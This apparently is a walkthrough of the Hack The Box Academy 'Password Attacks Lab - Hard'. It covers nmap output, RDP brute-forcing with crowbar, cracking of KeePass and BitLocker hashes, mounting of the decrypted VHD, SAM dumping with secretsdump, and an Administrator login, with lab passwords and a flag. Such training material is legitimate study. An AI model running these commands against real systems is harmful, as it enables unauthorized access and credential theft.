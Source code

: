 # Password Attacks Lab - Hard  

[Password Attacks Lab - Hard](https://academy.hackthebox.com/module/147/section/1356)  

>The next host is a Windows-based client. Client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. 
>While our colleagues were busy with other hosts on the network, we were able to find out that the user `Johanna` is present on very many hosts.  

## Enumeration  

>NMAP scans and result outputs:  

```
sudo nmap -p 111,135,139,445,2049,3389,5985 10.129.202.222 -sCV -A -O --script vuln

PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINSRV
|   NetBIOS_Domain_Name: WINSRV
|   NetBIOS_Computer_Name: WINSRV
|   DNS_Domain_Name: WINSRV
|   DNS_Computer_Name: WINSRV
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-16T20:22:30+00:00
| ssl-cert: Subject: commonName=WINSRV
| Not valid before: 2023-07-15T20:07:40
|_Not valid after:  2024-01-14T20:07:40
|_ssl-date: 2023-07-16T20:22:38+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (92%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-16T20:22:31
|_  start_date: N/A
```  

### RDP

>Using crowbar to brute force passwords for user `johanna` on Remote desktop.
>[Attacking RDP - Remote Desktop Protocol with crowbar](https://academy.hackthebox.com/module/116/section/1171)  

```
crowbar -b rdp -s 10.129.202.222/32 -u johanna -C ../resources/demo-pass.lst
```  

![crowbar-Password-Attacks-Lab-Hard](/images/crowbar-Password-Attacks-Lab-Hard.png)  

>Discovered the password for user `johanna` as `1231234!`. Remote desktop with discovered credentials.  

```
xfreerdp /v:10.129.202.222 /u:johanna /p:1231234! /dynamic-resolution /drive:kali-drive,/home/kali/Downloads/htb/academy/Johanna
```  

>With the dynamic drive mapping via RDP protocol, enable to easy copy of files between kali and the windows victim.  

![xfreerdp-Password-Attacks-Lab-Hard](/images/xfreerdp-Password-Attacks-Lab-Hard.png)  

## Foothold  

>With the foothold as user `Johanna`, copy the keepass database file to kali for cracking.  

```
keepass2john Logins.kdbx >keepass.hash
```

>Using hashcat to crack the extracted password hash.  

```
hashcat.exe -m 13400 s:\hashes\keepass.hash s:\wordlists\mut_password.list -O
```  

>With the obtained password, open the database using rdp session to the target.

![keepass-Password-Attacks-Lab-Hard](/images/keepass-Password-Attacks-Lab-Hard.png)  

## Lateral Movement  

>Obtained credentials from keepass database for the user `david` and his password as `gRzX7YbeTcDG7`.  

>Run `CMD` as user `.\david` and enumerate his files and documents.
>Discover a `backup.vhd` file in David Documents folder.

![vhd-Password-Attacks-Lab-Hard](/images/vhd-Password-Attacks-Lab-Hard.png)  

### Bitlocker password  

>[PASSWORD ATTACKS - Protected Archives](https://academy.hackthebox.com/module/147/section/1323) Using bitlocker2john.  

```
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
cat backup.hash
```  

>Using John the Ripper or `hashcat` to crack the VHD bitlocker drive password.  

```
john --wordlist=../tiny-pass-list1.txt vhd.hash
```  

```
hashcat.exe -m 22100 s:\hashes\vhd.hash s:\wordlists\mut_password.list -O
```  

>Obtained the encrypted windows 10 drive vhd image file cracked password as `123456789!`

>Mount encrypted VHD bitlocked drive - [Mounting Bit-locker encrypted vhd files in Linux](https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0)  

```
sudo modprobe nbd
sudo qemu-nbd -c /dev/nbd0 backup.vhd
sudo cryptsetup bitlkOpen /dev/nbd0p2 david
```

>Provide the password, `123456789!`.

```
ls -al /dev/mapper/david

mkdir vhd
sudo mount /dev/mapper/david vhd/
```  

![mount-vhd-Password-Attacks-Lab-Hard](/images/mount-vhd-Password-Attacks-Lab-Hard.png)  

>VHD is mapped, and we discovered backup copies of the windows SAM database.  

## Privilege Escalation  

>Using Impacket Secretsdump to extract the Administrator hash credentials.  
>[Attacking SAM database on windows target and cracking NT hashes with hashcat](https://academy.hackthebox.com/module/147/section/1315)

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
```  

>Output hashes:  

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
```  

>Using `-m` to select the hash type as `1000` to crack the NT hashes also referred to as NTLM-based hashes.  

```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```  

>With the obtained Administrator credentials, RDP to target.

```
xfreerdp /v:10.129.202.222 /u:Administrator /p:Liverp00l8! /dynamic-resolution
```

>HTB{PWcr4ck1ngokokok}  
